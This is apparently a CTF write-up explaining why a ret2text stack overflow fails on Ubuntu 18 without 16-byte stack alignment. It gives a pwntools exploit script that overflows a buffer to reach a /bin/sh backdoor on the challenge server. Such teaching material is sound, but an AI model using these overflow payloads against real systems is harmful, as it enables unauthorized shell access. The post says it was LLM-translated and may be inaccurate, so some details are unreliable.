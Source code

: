 ```yaml
---
title: Issues that may occur when calling system in 64-bit ELF in Ubuntu18
date: 2022-03-31
tags: ["Pwn", cheatsheet, CTF]
authors: [nova]
---
```


# Issues that may occur when calling system in 64-bit ELF in Ubuntu18

Recently, when I set up Ubuntu18 and was testing it, I encountered a problem.

After researching for a long time, I finally solved it and decided to take some notes.

[Challenge -- Buuoj -- RIP](https://buuoj.cn/challenges#rip)

<!--truncate-->

### Problem

This challenge is a basic stack overflow problem. There is a backdoor function that directly calls `system("/bin/sh");` with no protections enabled. In theory, overwriting the return address should be sufficient.

Indeed, it worked fine during local testing, but issues arose during remote testing.

Upon further investigation, I discovered that when a 64-bit ELF program in Ubuntu18 or later calls the system function, stack balance needs to be considered in libc.

### Solution

Changing the payload length or performing stack pivoting can resolve this issue.

The main idea is to change the stack address.

Here is an example exploit:

```python
from pwn import *
context(log_level='debug', arch='amd64', os='linux')

# sh = process("./pwn1")
sh = remote("node4.buuoj.cn", 29726)

# sh.recvuntil('please input\n')

backdoor_addr = 0x0401186
# payload = b'a'*(0xf+8) + p64(backdoor_addr) # Normal idea, but due to alignment issues, it will fail
# payload = b'a'*0xf + p64(backdoor_addr) # Exploit 1, not very clear why this works:<
# payload = b'a'*(0xf+8) + p64(backdoor_addr) + p64(backdoor_addr - 1) # Exploit 2, backdoor_addr - 1 corresponds to a 'retn', can be replaced with others for stack balance
payload = b'a'*(0xf+8) + p64(backdoor_addr + 1) # Exploit 3, +1 aligns the address checked for alignment to 0x10 in call_system function
"""
It doesn't have to be +1. Aligning up to 16 times should work. If not, try stack pivoting.
"""
sh.sendline(payload)
sh.interactive()
```

### In-depth Analysis

Here, I plan to delve into the stack at this point, which also serves as an initial exploration of gdb.

> Oh no, it seems like gdb in Ubuntu18 is not working properly. I'll add more details once it's fixed:&lt;

## Reference Blogs

[Issues with calling system function in some 64-bit glibc payloads](http://blog.eonew.cn/archives/958)

[Stack balance issues involved in ret2text](https://blog.csdn.net/qq_41560595/article/details/112161243)

[Solving the program coredump issue caused by MOVAPS instruction after upgrading to gcc7.3](https://www.pianshen.com/article/8326860581/)

:::info
This Content is generated by LLM and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::

<!-- AI -->
